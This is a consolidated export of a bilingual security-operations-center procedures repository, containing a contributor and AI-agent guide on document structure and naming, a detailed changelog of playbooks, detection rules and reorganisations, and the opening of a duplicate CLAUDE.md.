# SOC Standard Operating Procedures (Consolidated)

> This document is a consolidated export of all SOPs, Playbooks, and Templates.


---

## File: AGENTS.md

# AGENTS.md — SOC Standard Operating Procedures Repository

> This file is the **single source of truth** for all AI agents and human contributors working on this repository.
> It is symlinked to: `CLAUDE.md`, `.cursorrules`, `.github/copilot-instructions.md`

---

## 🎯 Project Identity

### WHY — Purpose
This repository provides **vendor-agnostic, production-ready SOC Standard Operating Procedures** that any organization can adopt to build or mature their Security Operations Center. All content follows NIST, MITRE ATT&CK, and ISO 27001/27035 frameworks.

### WHAT — Scope
- 50 Incident Response Playbooks (PB-01 to PB-50)
- Operations Management (Shift Handoff, KPIs, Team Structure, CTI, TLP)
- Detection Engineering (Sigma rules, YARA signatures)
- Simulation & Purple Teaming
- Training & Onboarding Curriculum
- Executive Reporting Templates
- All content is **bilingual** (English + Thai)

### HOW — Technology
- **Format**: Markdown (`.md`) with Mermaid diagrams
- **Diagrams**: Mermaid.js (rendered natively on GitHub)
- **Detection Rules**: Sigma YAML, YARA
- **Quality Tools**: `python3 tools/check_links.py`, `python3 tools/export_docs.py`
- **No build system required** — raw Markdown works on GitHub directly

**Maintained by**: [cyberdefense.co.th](https://cyberdefense.co.th) | Line OA: `@cyberdefense`

---

## 📁 Directory Structure

```
SOCSOP/
├── 10_Training_Onboarding/           # SOC infrastructure setup
├── 02_Platform_Operations/   # Data governance, deployment procedures
├── 03_User_Guides/           # Detection engineering, tool integration
├── 04_Troubleshooting/       # Standard troubleshooting methodology
├── 05_Incident_Response/     # IR Framework + 50 Playbooks
│   └── Playbooks/            # Individual incident playbooks (PB-01 to PB-50)
├── 06_Operations_Management/ # Shift handoff, metrics, team structure, TLP, CTI
├── 08_Detection_Engineering/sigma_rules/       # Sigma detection rules (.yml)
├── 08_Simulation_Testing/    # Purple team guides, Atomic Red Team maps
├── 10_Training_Onboarding/   # Analyst curriculum, training checklists
├── 08_Detection_Engineering/file_signatures/       # YARA rules
├── 11_Reporting_Templates/   # Monthly/quarterly executive reports
├── 11_Reporting_Templates/  # (templates moved here)                # Incident report, shift handover, RFC forms
├── tools/                    # Utility scripts (export, link check)
└── assets/                   # Images (hero banner, etc.)
```

---

## 📛 File Naming Conventions

| Rule | Example |
|---|---|
| English docs end with `.en.md` | `Phishing.en.md` |
| Thai docs end with `.th.md` | `Phishing.th.md` |
| Bilingual docs **always** come in pairs (EN + TH) | `Framework.en.md` + `Framework.th.md` |
| Language-neutral docs use plain `.md` | `README.md` |
| Use `PascalCase_With_Underscores` for filenames | `SOC_Team_Structure.en.md` |
| Detection rules use lowercase with underscores | `win_multiple_failed_logins.yml` |
| YARA rules use lowercase with underscores | `ransomware_extensions.yar` |

---

## 📄 Document Structure Requirements

Every SOP document **MUST** contain these sections in this exact order:

### 1. Title & Metadata
```markdown
# Document Title

**ID**: PB-XX (for playbooks)
**Severity**: Low/Medium/High/Critical (for playbooks)
**Trigger**: What causes this playbook to activate
```

### 2. Mermaid Flowchart
Every document must include at least one `mermaid` diagram visualizing the process or workflow.

````markdown

````

**Mermaid rules**:
- Thai versions must have **localized labels** (not English copy-pasted)
- Use `graph TD` (top-down) for process flows
- Use `graph LR` (left-right) for timelines/career paths
- Keep diagrams concise (max ~10 nodes)
- Use `style` for color coding when useful

### 3. Main Content
Structured with numbered sections (`## 1.`, `## 2.`, etc.) and actionable checklists:
```markdown
-   [ ] **Action Item**: Description of what to do.
```

### 4. Related Documents (Cross-Links)
Cross-links to other documents in the repository. Insert **before** References.

```
## Related Documents          <!-- English -->
## เอกสารที่เกี่ยวข้อง (Related Documents)  <!-- Thai -->

-   Document Name → relative/path/to/file.en.md
```

**Cross-link rules**:
- Playbooks → IR Framework, Incident Report Template, related Playbooks
- Operations docs → SOC Metrics, Assessment Checklist, IR Framework
- Always use **relative paths** (e.g., `../05_Incident_Response/Framework.en.md`)
- Every file must link to at least 2 other internal documents

### 5. References
External links to authoritative sources. Always include at least 2 references.

```markdown
## References
-   [NIST SP 800-61r2](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)
-   [MITRE ATT&CK](https://attack.mitre.org/)
```

**Preferred reference sources** (in order of priority):
1. NIST (SP 800-61, 800-53, CSF)
2. MITRE ATT&CK
3. CISA
4. SANS
5. OWASP
6. ISO 27001/27035
7. SOC-CMM
8. FIRST CSIRT Services Framework

---

## 🌐 Bilingual Content Rules

| Rule | Details |
|---|---|
| Every EN doc must have a TH counterpart | No orphaned single-language files |
| Thai docs are **localized**, not literal translations | Adapt terminology naturally |
| Mermaid labels must be localized | `Alert[แจ้งเตือน]` not `Alert[Alert]` |
| Section headers include Thai + English | `## 1. นิยามปัญหา (Defining the Problem)` |
| Keep technical terms untranslated | SIEM, MITRE ATT&CK, IOC, TLP, YARA, Sigma |
| References section header stays as `## References` | Same in both EN and TH versions |
| Related Documents header is bilingual in TH | `## เอกสารที่เกี่ยวข้อง (Related Documents)` |

---

## 🎨 Tone & Style Guide

### Writing Style
- **Actionable**: Write procedures as clear, step-by-step instructions
- **Imperative mood**: "Check the logs" not "The logs should be checked"
- **Concise**: Short bullet points, no long paragraphs
- **Professional**: Suitable for SOC analysts and CISO-level readers

### Formatting Rules
- Use `-   ` (3 spaces after dash) for bullet points
- Use `**Bold**` for key terms and action items
- Use backticks for commands, tools, and technical identifiers: `nslookup`, `SIEM`, `T1566`
- Tables for structured data (KPIs, staffing models, severity matrices)
- Numbered sections for sequential processes (`## 1.`, `## 2.`)

---

## 🛡️ Playbook Conventions

| Property | Rule |
|---|---|
| **ID Format** | `PB-XX` (e.g., PB-01, PB-02 ... PB-50) |
| **Standard Sections** | Analysis → Containment → Eradication → Recovery |
| **Mermaid Flow** | Must visualize the triage/decision process |
| **MITRE ATT&CK** | Reference relevant Technique IDs (e.g., T1566, T1078) |
| **Severity Levels** | Low, Medium, High, Critical |
| **Checklists** | Use `- [ ]` for operational steps |
| **Cross-Links** | Link to IR Framework, Incident Report template, related PBs |

### Playbook Index (PB-01 to PB-50)
```
PB-01 Phishing               PB-11 Suspicious Script
PB-02 Ransomware             PB-12 Lateral Movement
PB-03 Malware Infection      PB-13 C2 Communication
PB-04 Brute Force            PB-14 Insider Threat
PB-05 Account Compromise     PB-15 Log Clearing
PB-06 Impossible Travel      PB-16 Lost Device
PB-07 Privilege Escalation   PB-17 Rogue Admin
PB-08 Data Exfiltration      PB-18 BEC (Business Email Compromise)
PB-09 DDoS Attack            PB-19 Web Application Attack
PB-10 Exploit/Vulnerability  PB-20 Cloud-specific (AWS/Azure)
```

---

## 🔍 Detection Rules

### Sigma Rules (`08_Detection_Engineering/sigma_rules/`)
- **Format**: Sigma YAML specification v2
- **Naming**: `<category>_<description>.yml` (e.g., `win_multiple_failed_logins.yml`)
- **Required fields**: `title`, `status`, `description`, `logsource`, `detection`, `level`, `tags`
- **Tags**: Must include MITRE ATT&CK technique IDs (e.g., `attack.t1110`)

### YARA Rules (`08_Detection_Engineering/file_signatures/`)
- **Format**: YARA rule syntax
- **Naming**: `<family>_<indicator>.yar`
- **Required**: `meta`, `strings`, `condition` blocks

---

## ✅ Verification & Quality Checks

### Before Every Commit
```bash
# 1. Check all internal links are valid
python3 tools/check_links.py

# 2. Regenerate consolidated manual
python3 tools/export_docs.py
```

### Pre-Commit Checklist
- [ ] `check_links.py` passes ✅ (no broken internal links)
- [ ] `export_docs.py` regenerates `SOC_Manual_Consolidated.md`
- [ ] Both EN and TH versions updated if content changed
- [ ] Mermaid diagrams render correctly
- [ ] Related Documents section present with cross-links
- [ ] References section present with at least 2 credible sources
- [ ] README.md updated if new documents were added
- [ ] No duplicate lines (known issue — scan after batch edits)

---

## 📝 Git Commit Conventions

**Pattern**: `<Action> <What> (<Details>)`

```
Add SOC Team Structure document (EN/TH) with org chart, roles, career path
Fix duplicate lines from flow insertion, regenerate consolidated manual
Add cross-links between all documents (Related Documents sections)
Standardize Operations Management docs: Add flows and references
```

**Actions**: `Add`, `Fix`, `Update`, `Remove`, `Refactor`, `Standardize`

---

## 📖 README Maintenance

When adding new documents:
1. Add a row to the relevant section table in `README.md`
2. Follow the existing table format with English and Thai links
3. Keep the table alphabetically sorted within each section

---

## ⚠️ Known Pitfalls & Gotchas

| Pitfall | Solution |
|---|---|
| `multi_replace` tool duplicates lines when inserting flows | Scan for duplicate lines after batch edits with `grep` |
| Mermaid nodes with parentheses break rendering | Use `["text with (parens)"]` square bracket syntax |
| Thai text in Mermaid can overflow | Keep labels short, use abbreviations |
| Symlinks not followed on some Git platforms | Verify CLAUDE.md, .cursorrules render on GitHub |
| `check_links.py` only validates internal links | External URLs (References) are NOT checked automatically |
| `SOC_Manual_Consolidated.md` must be regenerated | Always run `export_docs.py` after any content change |

---

## 🔒 Security & Confidentiality Rules

- **NEVER** commit real credentials, API keys, or tokens
- **NEVER** include client-specific data (company names, IPs, domains)
- **NEVER** reference internal infrastructure details
- All examples must use **placeholder values**: `[COMPANY]`, `[IP_ADDRESS]`, `[YYYY-MM-DD]`
- Keep all content **vendor-agnostic** — no Splunk, QRadar, Sentinel-specific content
- Use generic terms: "SIEM query" not "SPL query", "EDR" not "CrowdStrike"

---

## 🚀 Common Workflows

### Adding a New Playbook
```
1. Create `05_Incident_Response/Playbooks/<Name>.en.md`
2. Create `05_Incident_Response/Playbooks/<Name>.th.md`
3. Include: Metadata, Mermaid flow, Analysis/Containment/Eradication/Recovery
4. Add Related Documents (→ Framework, → Incident Report Template)
5. Add References (MITRE ATT&CK technique + 1 more)
6. Update README.md table
7. Run: python3 tools/check_links.py
8. Run: python3 tools/export_docs.py
9. Commit with: "Add PB-XX <Name> playbook (EN/TH)"
```

### Adding a New Operations Document
```
1. Create `06_Operations_Management/<Name>.en.md`
2. Create `06_Operations_Management/<Name>.th.md`
3. Include: Mermaid flow, structured content, checklists
4. Add Related Documents (→ SOC Metrics, → Assessment Checklist)
5. Add References (NIST/SOC-CMM/SANS)
6. Update README.md table
7. Run verification scripts
8. Commit with: "Add <Name> document (EN/TH)"
```

### Updating Existing Documents
```
1. Edit both EN and TH versions
2. Verify Mermaid diagrams still render
3. Verify cross-links still work
4. Run: python3 tools/check_links.py
5. Run: python3 tools/export_docs.py
6. Commit with: "Update <Name>: <what changed>"
```

---

## ❌ Do NOT

- ❌ Use vendor-specific terminology (`"Splunk query"` → use `"SIEM query"`)
- ❌ Create single-language documents (always EN + TH pair)
- ❌ Skip the Mermaid flowchart in any SOP document
- ❌ Use absolute file paths in cross-links (always relative)
- ❌ Commit without running `check_links.py` and `export_docs.py`
- ❌ Leave References section empty (minimum 2 sources)
- ❌ Hardcode organization-specific details (keep vendor-agnostic)
- ❌ Include real credentials, client data, or internal infrastructure info
- ❌ Modify `SOC_Manual_Consolidated.md` directly (it's auto-generated)
- ❌ Create deeply nested directories (max 2 levels deep)
- ❌ Skip the Related Documents section (every file must cross-link)
- ❌ Use inline HTML in Markdown (except README badges/footer)


---

## File: CHANGELOG.md

# Changelog

All notable changes to the SOC Standard Operating Procedures will be documented in this file.

The format is based on [Keep a Changelog](https://keepachangelog.com/en/1.1.0/),
and this project adheres to [Semantic Versioning](https://semver.org/spec/v2.0.0.html).

---

## [2.11.1] - 2026-02-17

### Fixed
- **86 broken links** across 34 files — incorrect filenames, wrong directory prefixes, missing `../` paths
- **46 directory-level link warnings** — replaced `Playbooks/`, `sigma_rules/`, `Runbooks/` directory links with specific file references in 39 files
- **4 duplicate PB numbers** in `mkdocs.yml` — reassigned Log Clearing (→PB-27), Lost Device (→PB-32), Watering Hole (→PB-44), Cloud Cryptojacking (→PB-45)
- **24 PB number mismatches** in Playbook Quick Reference — aligned EN (13 fixes) and TH (11 fixes) with mkdocs.yml numbering
- **TH Quick Reference rewrite** — fixed 5 duplicate PBs (16, 22, 24, 28, 48) and 5 missing PBs (18, 27, 35, 41, 45)
- **6 emoji anchor links** in TRAINING.md — aligned slugs with MkDocs Material generation
- **2 external file warnings** — converted `SOC_Manual_Consolidated.md` and `.agent/workflows` links to GitHub URLs
- **2 mangled sigma rule paths** in Data_Collection.en.md — fixed sed concatenation error
- **2 duplicate sigma rules** removed from nested `sigma_rules/sigma/` subdirectory
- **YARA rule name collision** — renamed `webshell_php_generic` → `webshell_php_generic_sig` in `file_signatures/`
- **YARA count** in README — corrected 5 → 8 (includes `file_signatures/` directory)
- **Duplicate Phishing link** in Typosquatting.en.md — removed
- **IR Framework cross-reference** added to Typosquatting EN/TH playbooks
- **9 stale sigma paths** — updated references to removed `sigma_rules/sigma/` directory

### Changed
- **Playbook Quick Reference** — moved from gitignored `docs/` to tracked project root with symlinks
- **setup_docs.sh** — updated directory list to match current structure, added all top-level file symlinks
- **Nav readability** — sorted PBs ascending within groups, removed stray blank lines, fixed "Data Governance" label → "Database Management"
- **GitHub About description** — updated from "33 playbooks, 33 Sigma" → "50 playbooks, 36 Sigma rules"
- MkDocs build now **0 warnings, 0 errors** (previously 46+ INFO warnings + 2 WARNINGs)

---

## [2.11.0] - 2026-02-17

### Added
- **ISO 27001 Controls Mapping** (EN/TH) — Maps 52/93 Annex A controls to SOC documents with coverage chart and gap analysis
- **PCI-DSS v4.0 SOC Requirements** (EN/TH) — Covers Req 10, 11, 12.10 with audit preparation checklist and v3.2.1→v4.0 migration guide
- **Playbook Quick Reference Card** — Print-friendly 1-page summary of all 50 playbooks with severity, key actions, escalation guide, fillable contacts
- **MITRE ATT&CK Coverage Map** in README — Shows 12/14 tactics covered across 50 playbooks with heatmap indicators

### Changed
- **README Playbook Grouping** — Reorganized from 7 numeric groups (PB-01→10, etc.) to 7 attack-category groups (Email, Malware, Identity, Network, Cloud, Data, Physical) matching mkdocs nav
- **mkdocs.yml Navigation** — Playbooks grouped by attack category with PB IDs; Operations split into 5 named sub-groups with emoji headers
- **Stale number fixes** — Corrected 14+ stale references across 6+ files:
  - Sigma Rules: 50→36 (README badge + table + section header)
  - Playbooks: 20→50 (SOC_101 EN/TH, Quickstart EN, AGENTS.md, SOC_Manual)
  - PB range: PB-01 to PB-20→PB-50 (AGENTS.md, SOC_Manual)
- **IBM statistics updated** — 204→194 days breach detection, $4.45M→$4.88M cost (IBM 2024) in SOC_101 EN/TH

---

## [2.10.0] - 2026-02-16

### Added
- **15 new incident response playbooks** (PB-36 to PB-50) with full EN/TH coverage
  - PB-36 Credential Dumping (T1003) — LSASS, SAM, DCSync, Kerberoasting
  - PB-37 SQL Injection (T1190) — SQLi detection, WAF, database forensics
  - PB-38 Wiper Attack (T1485/T1561) — Destructive malware, integrity monitoring
  - PB-39 Living Off The Land (T1059/T1218) — LOLBins, fileless attacks
  - PB-40 USB Removable Media (T1091/T1052) — USB threats, BadUSB, DLP
  - PB-41 VPN Abuse (T1133) — Unauthorized VPN, impossible travel, MFA bypass
  - PB-42 Email Account Takeover (T1114) — BEC, inbox rules, OAuth abuse
  - PB-43 Watering Hole (T1189) — Trusted site compromise, exploit kits
  - PB-44 Drive-By Download (T1189) — Browser exploits, TDS, malvertising
  - PB-45 Rootkit/Bootkit (T1014/T1542) — Kernel, UEFI, firmware persistence
  - PB-46 SIM Swap (T1111) — SIM hijacking, SMS MFA bypass, carrier fraud
  - PB-47 Cloud Cryptojacking (T1496) — Crypto mining, cost spikes, API key abuse
  - PB-48 Deepfake Social Engineering (T1598) — AI voice/video, exec impersonation
  - PB-49 Typosquatting (T1583.001) — Domain impersonation, brand abuse, takedown
  - PB-50 Unauthorized Scanning (T1046) — Port scan, recon, network sweep
- Each playbook includes 7-8 Mermaid diagrams, Sigma detection rules, and PDPA references
- Total: 30 new files, 7,230+ lines added across EN and TH versions

## [2.9.0] - 2026-02-16

### Added
- **Comprehensive document enhancement** — 64 files expanded across 6 batches (+3,249 lines total)
  - All EN documents now above 160 lines (previously 20+ files were under 150)
  - PDPA Compliance: penalty table, cross-border guidance, 72h breach workflow, DPIA checklist
  - SOC Communication: crisis plan, war room activation, on-call procedures
  - Simulation Guide: lab environment setup, 3 detailed test scenarios, debrief template
  - SOC Team Structure: interview questions (T1/T2/T3), skills matrix, salary benchmarks
  - Data Handling Protocol: TLP marking in practice, DLP controls, TLP quick reference card
  - Common Issues: SIEM/EDR/log source troubleshooting scripts, escalation matrix
  - SOC Assessment Checklist: scoring rubric, industry maturity benchmarks
  - Threat Intelligence Lifecycle: TI report template, Diamond Model, STIX/TAXII reference
  - Access Control: break-glass emergency access, PAM workflow
  - Lessons Learned Template: common patterns, facilitator checklist, blameless culture
  - Detection Rule Testing: TDD workflow, CI/CD pipeline, quality benchmarks
  - Data Governance Policy: SOC data classification, lifecycle management
  - Monthly SOC Report: dashboard visualization guide, trend analysis, executive summary
  - Quickstart Guide: 10-item FAQ section
  - Analyst Onboarding Path: 90-day structured onboarding plan
  - System Activation: pre-flight checklist, log sources priority, go-live notification template
  - Database Management: capacity planning, backup strategy, health check script
  - Deployment Procedures: rollback procedures, change window schedule, smoke test script
  - Executive Dashboard: KPI definitions with RAG thresholds
  - Interview Guide: 3 scenario-based questions, scoring rubric
  - Templates: handover example, incident timeline, RFC risk assessment, approval matrix
  - SLA Template: penalty/credit structure, quarterly review agenda
  - Change Management: emergency change process, post-implementation review
  - Atomic Test Map: testing frequency matrix (12 tactics), result tracking
  - Vendor Evaluation: 3-year TCO model, POC checklist
- **Full TH-EN parity maintained** — All 32 enhanced EN files have matching TH versions

### Changed
- **Directory refactoring** — Improved project organization
  - Moved Tier 1/2/3 Runbooks to `05_Incident_Response/Runbooks/` subfolder
  - Merged `templates/` into `11_Reporting_Templates/` (single location for all templates)
  - Updated 100+ cross-references across 118 files (zero stale links)
- Project total now **86,564 lines** across 244 documents

---

## [2.8.0] - 2026-02-16

### Added
- **Complete TH-EN parity** — All 244 files now have near-identical line counts between Thai and English versions
  - Non-playbook documents: max gap ≤ 3 lines (120 file pairs)
  - Playbook documents: max gap ≤ 5 lines (35 file pairs)
  - Total lines added for parity: +3,416 across 13 expansion batches
- **Tier 1 Runbook v2.0** — Complete rewrite (229 → 519 lines EN, 227 → 517 lines TH)
  - Added: SIEM query templates, 10 alert types, FP cheat sheet, first-day checklist, log source reference, KPIs, 3 Mermaid flow diagrams
- **Tier 2 Runbook** — New (383 lines EN/TH)
  - Investigation methodology, SIEM correlation queries, containment framework, MITRE ATT&CK mapping, incident documentation template, T1 mentoring guide
- **Tier 3 Runbook** — New (429 lines EN, 428 lines TH)
  - Threat hunting framework, LOLBin/persistence/C2 hunt queries, malware analysis workflow, Sigma/YARA templates, forensics commands, purple team guide, TI report template
- **Targeted content additions** — Tables, checklists, quick reference cards, decision matrices, and workflow templates added to all Thai documents to achieve content equivalence

### Changed
- **Project directory reorganization** — Consolidated from 25 overlapping directories to 12 clean directories with unique prefixes (00–11)
  - Merged `07_Compliance_Privacy/` → `07_Compliance_Privacy/`
  - Unified detection engineering (`07_Detection_Rules` + `10_File_Signatures` → `08_Detection_Engineering`)
  - Consolidated onboarding (`01_Onboarding` + `01_SOC_Overview` + `09_Training` → `10_Training_Onboarding`)
  - Renumbered `08_Simulation_Testing` → `09_Simulation_Testing`
  - Removed 5 duplicate files (Escalation_Matrix, Alert_Tuning_SOP, Communication_SOP duplicates)
- Updated all 237 `mkdocs.yml` navigation paths to match new structure
- Updated `README.md` directory tree (26 path references)

### Statistics
- **Total files**: 240 (120 EN + 120 TH)
- **Total lines**: 81,036
- **Max TH-EN gap**: 5 lines (1 file), all others ≤ 3

---

## [2.7.0] - 2026-02-16

### Added
- **350 Mermaid diagrams** across all 70 playbooks (35 EN + 35 TH), 5 diagrams per playbook
  - Phase 1: Base 3 diagrams per playbook (decision flowchart, attack/detection visualization, response sequence)
  - Phase 2: 2 extra diagrams for 15 shortest playbooks (hardening/prevention + forensic artifacts)
  - Phase 3: 2 extra diagrams for remaining 20 playbooks (security architecture + operational workflow)
- **Diagram topics include**: Password Hardening, Conditional Access, BEC Kill Chain, C2 Framework Classification, Beacon Detection, Least Privilege, Mining Pool Detection, Container Security, DDoS Mitigation, Exfiltration Channels, UEBA Indicators, Log Protection Architecture, MFA Comparison (SMS→FIDO2), Malware Analysis Pipeline, EDR Response Flow, BYOD Architecture, OT/IT Convergence, Email Security Stack (SPF/DKIM/DMARC), AMSI Detection, Secure SDLC, PAM Architecture, SBOM Management, Vendor Risk Assessment, CSPM Pipeline, PDPA Notification
- **Sigma cross-references** — All 70 playbooks now link to their matching Sigma detection rules (1-4 rules per playbook)
- **Post-Incident sections** — Added to all 34 TH playbooks (หลังเหตุการณ์) with 6 topic-specific action items each

### Improved
- **12 short EN playbooks** expanded: Network Discovery (156→210), Data Collection (176→230), and 10 others
  - Added eradication, IoC collection, escalation criteria, recovery, and post-incident sections
- Repository visual guidance significantly enhanced: 350 diagrams total
- Every playbook now includes both architectural reference diagrams and operational workflows
- Consistent 5-diagram structure across all playbooks for uniform quality
- Complete IR lifecycle coverage: Analysis → Containment → Eradication → Recovery → Escalation → Post-Incident

---

## [2.6.0] - 2026-02-16

### Added
- **PB-34 Network Discovery** (EN+TH) — Discovery tactic coverage: T1046, T1135, T1018 (port scanning, AD enumeration, net commands)
- **PB-35 Data Collection** (EN+TH) — Collection tactic coverage: T1560, T1119, T1074 (archive staging, bulk access, cloud downloads)
- **Sigma: win_network_discovery.yml** — Discovery tools detection (nmap, net commands, AD queries)
- **Sigma: win_data_collection_staging.yml** — Password-protected archiving and data staging detection
- **Escalation_Matrix** (EN+TH) — Severity-based escalation paths, contact list template, flowchart
- **Alert_Tuning_SOP** (EN+TH) — False positive reduction workflow, tuning methods
- **SOC_Communication** (EN+TH) — Communication channels, notification templates, escalation matrix
- **PDPA_Compliance** (EN+TH) — PDPA data classification, breach notification (72h), IR integration
- **Data_Governance_Policy** (EN+TH) — Data classification levels L1–L4, handling requirements

### Changed
- **change_request_rfc** (EN+TH) — Expanded 35→130 lines: implementation plan, testing, CAB approval, post-review
- **incident_report** (EN+TH) — Expanded 43→140 lines: structured timeline, IoCs table, VERIS RCA, approvals
- **Quarterly_Business_Review** (EN+TH) — Expanded 42→170 lines: KPI dashboard, MITRE coverage, budget, risk register
- **Atomic_Test_Map** (EN+TH) — Expanded 50→160 lines: 28 tests by ATT&CK tactic, install guide, testing cadence
- **GitHub Topics** — Optimized 14→20 topics: added `nist`, `dfir`, `detection-engineering`, `soar`, `threat-intelligence`, `edr`
- **mkdocs.yml** — Added 10 new nav entries for Escalation Matrix, Alert Tuning SOP, SOC Communication, PDPA Compliance, Data Governance Policy, Network Discovery, Data Collection

### Improved
- MITRE ATT&CK tactic coverage: 11/14 → 13/14 (added Discovery + Collection)
- Playbooks: 33 → 35
- Sigma rules: 33 → 35

---

## [2.5.0] - 2026-02-16

### Changed
- **Framework.en/th.md** — Expanded from 54 to 300 lines: RACI matrix, containment decision matrix, severity SLA table, triage flowchart, evidence preservation checklist, PIR agenda
- **Shift_Handoff.en/th.md** — Expanded from 60 to 192 lines: coverage models, 30-min meeting agenda, start/end-of-shift checklists, communication protocols, fatigue management, handoff quality audit
- **SOC_Metrics.en/th.md** — Expanded from 59 to 247 lines: MTTC, dwell time, escalation accuracy, FPR action table, capacity/business metrics, dashboard panels, reporting cadence
- **Training_Checklist.en/th.md** — Expanded from 39 to 180 lines: 8-week program (was 4), formal assessment criteria, graduation sign-off, certification roadmap
- **shift_handover.en/th.md** — Expanded from 33 to 139 lines: checkbox system health, TI/vulnerability sections, statistics, compliance deadlines, dual sign-off

### Fixed
- Removed duplicate lines in SOC_Metrics.en.md and Shift_Handoff.en.md
- `check_links.py` — Added `.agent` to EXCLUDE_DIRS to fix CI false positives

---

## [2.4.0] - 2026-02-16

### Added
- **TRAINING.md** — Comprehensive 6-course training catalog with modules, labs, outcomes, deliverables
- **CONTRIBUTING.md** — Contribution guide with document standards, naming conventions, checklist
- README dynamic badges (Stars, Last Commit, CI Status, Docs, Training)
- Personal brand section (About the Author, services, contact badges)

### Changed
- Updated `mkdocs.yml` site_author to personal name
- Added Training Course Catalog to mkdocs navigation

---

## [2.3.0] - 2026-02-16

### Added
- **Compliance Gap Analysis** (EN+TH) — 6 frameworks, gap analysis process, SOC controls matrix
- **Playbook Development Guide** (EN+TH) — Structure standard, MITRE coverage, tabletop testing
- **SOC Capacity Planning** (EN+TH) — Staffing model, SIEM sizing, budget planning, automation ROI
- **CHANGELOG.md** — This file
- **VERSION_TRACKER.md** — Document version tracker with review status

### Changed
- None

---

## [2.2.0] - 2026-02-16

### Added
- **DLP SOP** (EN+TH) — Data classification, 10 policies, PDPA breach assessment
- **Network Security Monitoring** (EN+TH) — 22 detections, zone matrix, DNS security

### Changed
- Reorganized README.md into logical sub-categories (6 Operations groups, 3 IR groups)
- Reorganized mkdocs.yml navigation with YAML comment separators
- Removed all `(NEW)` tags from README
- Added bilingual sub-headings throughout

---

## [2.1.0] - 2026-02-15

### Added
- **Cloud Security Monitoring** (EN+TH) — Multi-cloud architecture, 20+ detections
- **Insider Threat Program** (EN+TH) — Behavioral indicators, investigation workflow
- **Vulnerability Management** (EN+TH) — CVSS scoring, patching SLA, scanning procedures
- **Phishing Simulation Program** (EN+TH) — Campaign management, metrics, training

### Fixed
- Cross-directory links in Phishing_Simulation.en.md

---

## [2.0.0] - 2026-02-15

### Added
- **Threat Hunting Playbook** (EN+TH) — 8 hunt hypotheses, MITRE mapped
- **Log Source Matrix** (EN+TH) — 20+ sources with priority and retention
- **Escalation Matrix** (EN+TH) — P1–P4 escalation paths with SLAs
- **Disaster Recovery / BCP** (EN+TH) — RTO/RPO targets, DR procedures
- **Incident Classification** (EN+TH) — Taxonomy with 10 categories
- **SOC Automation Catalog** (EN+TH) — 15+ automation use cases
- **Forensic Investigation** (EN+TH) — Evidence handling, chain of custody
- **KPI Dashboard Template** (EN+TH) — 8 key metrics with targets
- **Threat Landscape Report** (EN+TH) — Regional threat analysis
- **Third-Party Risk** (EN+TH) — Vendor assessment, monitoring
- **SOC Maturity Assessment** (EN+TH) — 7 domains, scoring model
- **Alert Tuning SOP** (EN+TH) — FP reduction, tuning lifecycle
- **Purple Team Exercise Guide** (EN+TH) — 9 exercises, scoring
- **SOC Analyst Onboarding** (EN+TH) — 90-day curriculum
- `export_pdf.py` — Client-ready PDF/HTML export tool

### Changed
- Rewrote README.md for readability with collapsible playbook sections

### Fixed
- Broken links in SOC_Onboarding, SOC_Automation_Catalog
- 3 broken cross-directory links

---

## [1.2.0] - 2026-02-15

### Added
- **Compliance Mapping** (EN+TH) — ISO 27001, NIST CSF, PCI DSS
- **PDPA Incident Response** (EN+TH) — 72-hour notification
- **Monthly SOC Report** template (EN+TH)
- **Quarterly Business Review** template (EN+TH)
- **Executive Dashboard** template (EN+TH)
- 6 Budget/Staffing guides and Analyst Training Path (EN+TH)
- SOC Checklists, Interview Guide, SLA Template (EN+TH)

---

## [1.1.0] - 2026-02-15

### Added
- SOC Building Roadmap (zero-to-SOC guide)
- Technology Stack Selection, Infrastructure Setup, Use Case Prioritization (EN+TH)
- PB-26 through PB-33 (MFA Bypass, Cloud Storage, Mobile, Shadow IT, OT/ICS, AWS, Azure)
- SOAR Playbook Templates (6 templates)
- TI Feeds Integration guide
- Grafana (14 panels) + Kibana (11 panels) dashboards
- 5 YARA rules + Sigma validator

---

## [1.0.0] - 2026-02-15

### Added
- Initial SOC SOP repository
- Bilingual structure (EN/TH) for all documents
- IR Framework (NIST-based), Severity Matrix
- PB-01 through PB-25 (25 core playbooks)
- 33 Sigma detection rules
- Simulation & Testing Guide with Atomic Red Team mapping
- SOC Metrics, Shift Handoff, Operational Templates
- Incident Report, Shift Handover, RFC templates
- SOC 101, Quickstart Guide, Glossary
- `check_links.py`, `new_playbook.py`, `export_docs.py`, `validate_sigma.py`
- SOC Maturity Scorer (interactive HTML)
- MITRE ATT&CK Heatmap (interactive HTML)
- MkDocs configuration for documentation site


---

## File: CLAUDE.md

# AGENTS.md — SOC Standard Operating Procedures Repository

> This file is the **single source of truth** for all AI agents and human contributors working on this repository.
> It is symlinked to: `CLAUDE.md`, `.cursorrules`, `.github/copilot-instructions.md`

---

## 🎯 Project Identity

### WHY — Purpose
